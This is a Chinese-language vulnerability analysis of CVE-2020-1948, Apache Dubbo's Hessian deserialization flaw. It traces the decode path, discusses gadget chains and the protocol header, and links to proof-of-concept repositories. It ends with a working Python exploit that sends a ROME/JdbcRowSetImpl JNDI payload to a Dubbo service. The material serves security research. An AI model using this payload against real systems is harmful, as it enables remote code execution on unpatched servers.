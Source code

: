 ```yaml
---
sidebar_position: 1
tags: [CVE, Dubbo, Deserialization, Hessian2]
---
```


# CVE-2020-1948 Apache Dubbo Provider dubbo协议反序列化漏洞

## 概述

### 影响版本

2.5.x、[2.6.0, 2.6.7]、[2.7.0, 2.7.6]

## 复现分析

`org.apache.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation` 是 Dubbo 框架中的一个类，将 Dubbo 协议中的请求体解码为可执行的 `RpcInvocation` 对象，`RpcInvocation` 表示一个 RPC 调用的参数和信息。具体的解码过程在 `decode()` 方法，跟进一下。

![image-20231120145854931](attachments/image-20231120145854931.png)

方法进来后首先是对 dubbo 传入的内容进行提取，可以看到通过 `CodecSupport.getSerialization()` 定义了本次请求是对 Hessian 的反序列化，所以会调用 `org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectInput#readObject()` 来处理

![image-20231120145628989](attachments/image-20231120145628989.png)

继续跟到 Hessian 反序列化解析，将调用 `com.alibaba.com.caucho.hessian.io.Hessian2Input#readObject()` 方法，计算字节对应的标记 tag，执行对应的解析方法。

![image-20231120150121459](attachments/image-20231120150121459.png)

![image-20231120150339240](attachments/image-20231120150339240.png)

当 tag 为 H 时通过 `com.alibaba.com.caucho.hessian.io.MapDeserializer#readMap()` 处理数据

![image-20231120150824276](attachments/image-20231120150824276.png)

而在进入 `com.alibaba.com.caucho.hessian.io.MapDeserializer#doReadMap()` 读取数据时，调用了 HashMap 的 put() 方法，之后就是通过触发 Map 的 `hashcode()` 方法实现 RCE 了。

![image-20231120150906525](attachments/image-20231120150906525.png)

到这为止似乎很合理，但是为什么不能通过 `TiedMapEntry.hashCode()` 方法来触发 CC 链的利用？所以还得再继续跟一下，以 CC6 为例我们可以看到进入 `TiedMapEntry.hashCode()` 方法时，LazyMap 被替换为 HashMap。

![image-20231120173843388](attachments/image-20231120173843388.png)

所以一步步跟进 `com.alibaba.com.caucho.hessian.io.MapDeserializer#doReadMap()` 对于 `TiedMapEntry` 的处理，对于 Map 类型的反序列化通过 `com.alibaba.com.caucho.hessian.io.JavaDeserializer` 处理 key 、value 值。

![image-20231120173803275](attachments/image-20231120173803275.png)

![image-20231120173210859](attachments/image-20231120173210859.png)

之后进入 `com.alibaba.com.caucho.hessian.io.MapDeserializer#readMap()` 处理 LazyMap时，由于 `_type` 值是通过获取 `TiedMapEntry` 的 Field 得到的所以是 `java.util.Map`

![image-20231120180053465](attachments/image-20231120180053465.png)

![image-20231120175827131](attachments/image-20231120175827131.png)

所以最终被统一处理为 `java.lang.HashMap`

![image-20231120173311626](attachments/image-20231120173311626.png)

## consumer的坑

在 consumer 发起请求后因为 demoService 本身为一个动态代理对象 `org.apache.dubbo.rpc.proxy.InvokerInvocationHandler` ，最终会触发到 `org.apache.dubbo.rpc.RpcInvocation#toString()` 执行调用链。

![image-20240201144012489](attachments/image-20240201144012489.png)

## todo 调用链

Rome、XBean、Resin、SpringPartiallyComparableAdvisorHolder、SpringAbstractBeanFactoryPointcutAdvisor

http://moonflower.fun/index.php/2022/05/28/336/

http://www.bmth666.cn/2023/03/07/%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%AE%9E%E6%88%98%E7%9A%84hessian%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

https://github.com/threedr3am/dubbo-exp/blob/master/src/main/java/com/threedr3am/exp/dubbo/payload/hessian/ResinPoc.java

pop 链 https://blog.csdn.net/Xxy605/article/details/125925629

### 原生

https://y4er.com/posts/nacos-hessian-rce/

https://github.com/waderwu/My-CTF-Challenges/tree/master/0ctf-2022/hessian-onlyJdk/writeup



## Hessian 流量

Hessian（也称为Hessian Binary Web Service Protocol）是一种用于实现二进制Web服务协议的轻量级协议。它允许在Java应用程序之间通过二进制格式进行远程调用，即通过序列化和反序列化 Java 对象实现通信。

![image-20231121093323134](attachments/image-20231121093323134.png)

抓包后看到发送了一段 dabbc2 开头的数据，表示 Hessian 的协议头，之后的 053223.....   就是在调试 `org.apache.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation#decode()` 方法时传入的数据流。

具体的协议内容可以参照 [官网](https://dubbo.apache.org/zh-cn/blog/2018/10/05/dubbo-%E5%8D%8F%E8%AE%AE%E8%AF%A6%E8%A7%A3/)

| 偏移量(Bit) | 字段         | 取值                                                      |
| ----------- | ------------ | --------------------------------------------------------- |
| 0 ~ 7       | 魔数高位     | 0xda00                                                    |
| 8 ~ 15      | 魔数低位     | 0xbb                                                      |
| 16          | 数据包类型   | 0 - Response, 1 - Request                                 |
| 17          | 调用方式     | 仅在第16位被设为1的情况下有效，0 - 单向调用，1 - 双向调用 |
| 18          | 事件标识     | 0 - 当前数据包是请求或响应包，1 - 当前数据包是心跳包      |
| 19 ~ 23     | 序列化器编号 | 2 - Hessian2Serialization                                 |
|             |              | 3 - JavaSerialization                                     |
|             |              | 4 - CompactedJavaSerialization                            |
|             |              | 6 - FastJsonSerialization                                 |
|             |              | 7 - NativeJavaSerialization                               |
|             |              | 8 - KryoSerialization                                     |
|             |              | 9 - FstSerialization                                      |
| 24 ~ 31     | 状态         | 20 - OK                                                   |
|             |              | 30 - CLIENT_TIMEOUT                                       |
|             |              | 31 - SERVER_TIMEOUT                                       |
|             |              | 40 - BAD_REQUEST                                          |
|             |              | 50 - BAD_RESPONSE                                         |
| 32 ~ 95     | 请求编号     | 共8字节，运行时生成                                       |
| 96 ~ 127    | 消息体长度   | 运行时计算                                                |

Hessian 是基于 Field 的序列化机制，所以也可以直接用其他语言构造请求。以 python 为例如下，需要注意的是这个库没法修改发送时的 service_version 参数默认为 1.0，服务器对不上会抛出异常 Not found exported service 。因为是分析 java 洞，所以后面还是尽量用 Java 来构造。

```python
from dubbo.codec.hessian2 import Decoder, new_object
from dubbo.client import DubboClient

ip = "127.0.0.1"
port = 12345
jndi = "rmi://127.0.0.1:1099/j5yr3d"

client = DubboClient(ip, port)

JdbcRowSetImpl = new_object(
    'com.sun.rowset.JdbcRowSetImpl',
    dataSource=jndi,
    strMatchColumns=["foo"]
)
JdbcRowSetImplClass = new_object(
    'java.lang.Class',
    name="com.sun.rowset.JdbcRowSetImpl",
)
toStringBean = new_object(
    'com.rometools.rome.feed.impl.ToStringBean',
    beanClass=JdbcRowSetImplClass,
    obj=JdbcRowSetImpl
)

resp = client.send_request_and_return_response(
    service_name='org.example.api.DemoService',
    method_name='sayObject',
    args=[toStringBean])

print(resp)
```
